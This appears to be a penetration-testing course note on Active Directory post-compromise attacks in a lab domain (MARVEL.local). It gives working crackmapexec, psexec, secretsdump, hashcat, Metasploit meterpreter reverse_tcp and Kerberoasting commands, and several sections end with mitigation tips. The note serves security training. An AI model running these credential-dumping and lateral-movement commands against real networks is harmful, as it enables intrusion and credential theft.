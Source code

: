 # Post Compromise Attacks

## Pass the Password Attacks

#### crackmapexec

```bash
kali@kali:~/ctf/tcm/peh$ crackmapexec smb 192.168.57.0/24 -u fcastle -d MARVEL.local -p Password1
# Dump the SAM hashes
--sam
# Dump the LSA secrets
--lsa
# Dump the NTDS.dit
--ntds
```

#### psexec

```bash
kali@kali:~/ctf/tcm/peh$ /usr/share/doc/python3-impacket/examples/psexec.py marvel/fcastle:Password1@192.168.57.142
```

## Dumping Hashes with secretsdump.py

#### secretsdump

```bash
kali@kali:~/ctf/tcm/peh$ /usr/share/doc/python3-impacket/examples/secretsdump.py marvel/fcastle:Password1@192.168.57.141
```

## Cracking NTLM Hashes with Hashcat

#### hashcat

```bash
kali@kali:~/ctf/tcm/peh$ hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt 
```

## Pass the Hash Attacks

#### crackmapexec

```bash
kali@kali:~/ctf/tcm/peh$ crackmapexec smb 192.168.57.0/24 -u "Frank Castle" -H <HASH> --local-auth
```

## Pass Attack Mitigations

Hard to completely prevent, but we can make it more difficult on an attacker:

* Limit account re-use
  * Avoid re-using local admin password
  * Disable Guest and Administrator accounts
  * Limit who is a local administrator (least privilege)
* Utilize strong passwords
  * The longer the better
  * Avoid using common words
  * Long sentences
* Privilege Access Management (PAM)
  * Check out/in sensitive accounts when needed
  * Automatically rotate passwords on check out and check in
  * Limits pass attacks as hash/password is strong and constantly rotated

## Token Impersonation

### Overview

#### What are tokens?

* Temporary keys that allow you to access to a system/network without having to provide credentials each time you access a file. Think cookies for computers.

#### Two Types

* Delegate - Created for logging into a machine or using Remote Desktop
* Impersonate - "non-interactive" such as attach a network drive or a domain logon script

### Token Impersonation with Incognito

#### Metasploit

```bash
msfconsole
use exploit/windows/smb/psexec
# Set RHOSTS, SMBDomain, SMBPass, and SMBUser; 
# set target 2; set payload windows/x64/meterpreter/reverse_tcp; set LHOST
run
# hashdump
# getuid
# sysinfo
load incognito
help
list_tokens -u
impersonate_token marvel\\administrator
shell
whoami
```

### Mitigation

#### Strategies

* Limit user/group token creation permissions
* Account tiering
* Local admin restriction

## Kerberoasting

### Overview

[https://medium.com/@Shorty420/kerberoasting-9108477279cc](https://medium.com/@Shorty420/kerberoasting-9108477279cc)

#### Steps

1. Get SPNs, Dump Hash
   1. `python GetUserSPNs.py <DOMAIN/username:password> dc-ip <ip of DC> -request`
2. Crack that hash
   1. `hashcat -m 13100 kerberoast.txt rockyou.txt`

### Example

#### GetUserSPNs

```bash
GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 192.168.57.140 -request
```

Copy the hash from the output and paste it into a text file.

#### hashcat

```bash
hashcat -m 13100 hashes.txt rockyou.txt
```

### Mitigation

#### Strategies

* Strong Passwords
* Least privileges

## GPP / cPassword Attacks Overview

## Abusing GPP

## URL File Attacks

## Mimikatz

## Golden Ticket Attacks
